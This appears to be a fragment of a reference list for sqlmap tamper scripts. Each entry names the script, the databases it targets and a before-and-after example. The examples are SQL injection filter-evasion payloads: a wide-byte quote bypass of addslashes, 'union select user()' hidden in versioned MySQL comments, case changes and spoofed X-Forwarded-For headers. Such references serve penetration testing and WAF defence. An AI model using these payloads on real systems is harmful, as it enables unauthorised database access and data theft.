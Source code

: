 Function: ‘ ==> %df%27

Platform: Mysql magic_quotes/addslashes

    example

1' AND 1=1 ==> 1%bf%27 —
uppercase.py

Function: Lower case to upper case

Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0

    example

insert ==> INSERT
varnish.py

Function: header

    example

X-originating-IP: 127.0.0.1
versionedkeywords.py

Function: union ==> /!union/

Platform: MySQL 4.0.18, 5.1.56, 5.5.11

    example

1 union select user() ==> 1/*!UNION*//*!SELECT*/user()
versionedmorekeywords.py

Function: union ==> /!union/

Platform: MySQL 5.1.56, 5.5.11

    example

1 union select user() ==> 1/*!UNION*//*!SELECT*/user()
xforwardedfor.py

Function: X-Forwarded-For Random Head

Platform: All

    example

X-Forwarded-For: 127.0.0.1